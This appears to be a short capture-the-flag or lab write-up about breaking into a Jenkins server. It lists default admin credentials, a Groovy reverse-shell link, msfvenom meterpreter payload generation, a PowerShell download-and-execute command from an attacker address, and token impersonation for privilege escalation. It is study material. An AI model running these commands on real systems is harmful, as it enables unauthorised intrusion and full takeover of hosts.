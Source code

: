 ## Scanning
jenkins server at 8080

## Get in 
* admin:admin pwd default
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy-alternative-1
* Run groovy script for reverse shell.
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.229.114 LPORT=4440 -f exe -o a.exe
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.229.114:8080/shell-name.exe','shell-name.exe')"
powershell -c "Start-Process shell-name.exe"

# load meterpreter receiver in msfconsole
load incognito
impersonate_token "BUILTIN\Administrators"  # impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token
migrate PID-OF-service.exe  # it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).
```



## Extra
* Abusing Token Privileges For LPE - https://www.exploit-db.com/papers/42556
